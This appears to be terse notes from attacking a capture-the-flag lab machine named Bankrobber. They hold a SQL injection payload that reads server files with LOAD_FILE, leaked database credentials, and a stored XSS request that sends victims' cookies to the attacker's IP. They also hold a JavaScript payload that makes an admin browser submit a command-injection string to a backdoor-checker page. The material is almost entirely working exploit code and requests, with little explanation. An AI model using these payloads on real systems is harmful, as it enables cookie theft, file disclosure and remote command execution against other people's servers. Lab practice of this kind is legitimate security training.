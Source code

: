 term=1' union all SELECT LOAD_FILE('C:/xampp/htdocs/link.php'), 2,3; -- t

$user = 'root';
$pass = 'Welkom1!';
$dsn = "mysql:host=127.0.0.1;dbname=bankrobber;";
$pdo = new PDO($dsn,$user,$pass);
function echoBalance($pdo){
    	$pdo = $pdo;
	if(isset($_COOKIE['id'])){
    		$stmt = $pdo->prepare("SELECT amount FROM balance where userId = ?");
		$stmt->execute([$_COOKIE['id']]);
		while($row = $stmt->fetch()){
    			return $row[0];
		}
	}
}

?>

mysql -uroot -pWelkom1! -h 10.10.10.154

ERROR 1130 (HY000): Host '10.10.14.17' is not allowed to connect to this MariaDB server


XSS:

working:
POST /user/transfer.php HTTP/1.1
Host: 10.10.10.154
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 123
Origin: http://10.10.10.154
DNT: 1
Connection: close
Referer: http://10.10.10.154/user/
Cookie: id=3; username=aGFja2Vy; password=aGFja2Vy

fromId=3&toId=1&amount=10&comment=<img+src%3dx+onerror%3d"this.src%3d'http%3a//10.10.14.17/%3fc%3d'%2bdocument.cookie%3b"/>



xss.js
```js
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping 10.10.14.17";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;
xhr.send(params);
```
